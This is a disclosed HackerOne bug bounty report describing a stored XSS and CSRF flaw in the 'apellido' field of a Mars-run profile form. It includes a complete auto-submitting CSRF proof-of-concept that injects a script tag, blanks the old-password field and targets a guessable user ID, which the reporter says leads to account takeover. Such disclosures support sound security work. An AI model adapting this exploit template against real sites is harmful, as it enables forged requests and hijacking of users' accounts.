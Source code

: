 # Stored XSS + CSRF in "apellido" value

## Report Details
- **Report ID**: 2037234
- **URL**: https://hackerone.com/reports/2037234
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-06-24T15:42:26.489Z
- **Disclosed**: 2023-08-30T15:47:16.819Z

## Reporter
- **Username**: never_die
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mars

## Vulnerability Information
## Summary:
Hi team,

## Steps To Reproduce:
[add details for how we can reproduce the issue]

This is my CSRF POC: 
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="██████" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="nombre" value="aaaaaaaaaaaaaaaa" />
      <input type="hidden" name="apellido" value="<script>alert()</script>" />
      <input type="hidden" name="email" value="weqwad&#64;intigriti&#46;me" />
      <input type="hidden" name="rut" value="" />
      <input type="hidden" name="idProvincia" value="15" />
      <input type="hidden" name="idLocalidad" value="0" />
      <input type="hidden" name="optin&#91;usuario&#95;info&#95;miroyalcanin&#93;" value="no" />
      <input type="hidden" name="optin&#91;usuario&#95;info&#95;miroyalcanin&#93;" value="si" />
      <input type="hidden" name="optin&#91;usuario&#95;info&#95;marspetcare&#93;" value="no" />
      <input type="hidden" name="optin&#91;usuario&#95;info&#95;marspetcare&#93;" value="si" />
      <input type="hidden" name="optin&#91;usuario&#95;investigaciones&#93;" value="no" />
      <input type="hidden" name="optin&#91;usuario&#95;investigaciones&#93;" value="si" />
      <input type="hidden" name="optin&#91;usuario&#95;info&#95;perros&#93;" value="no" />
      <input type="hidden" name="optin&#91;usuario&#95;info&#95;perros&#93;" value="si" />
      <input type="hidden" name="optin&#91;usuario&#95;info&#95;gatos&#93;" value="no" />
      <input type="hidden" name="optin&#91;usuario&#95;info&#95;gatos&#93;" value="si" />
      <input type="hidden" name="switch&#95;pass" value="off" />
      <input type="hidden" name="ck&#95;oldpass" value="" />
      <input type="hidden" name="oldpass" value="" />
      <input type="hidden" name="clave" value="" />
      <input type="hidden" name="clave2" value="" />
      <input type="hidden" name="idUsuario" value="91737" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

### The "oldpass" value can empty to bypass:))
### The "idUsuario" value requirement can guess!!!

### impact:
Account Takeover


## Attachments
No attachments
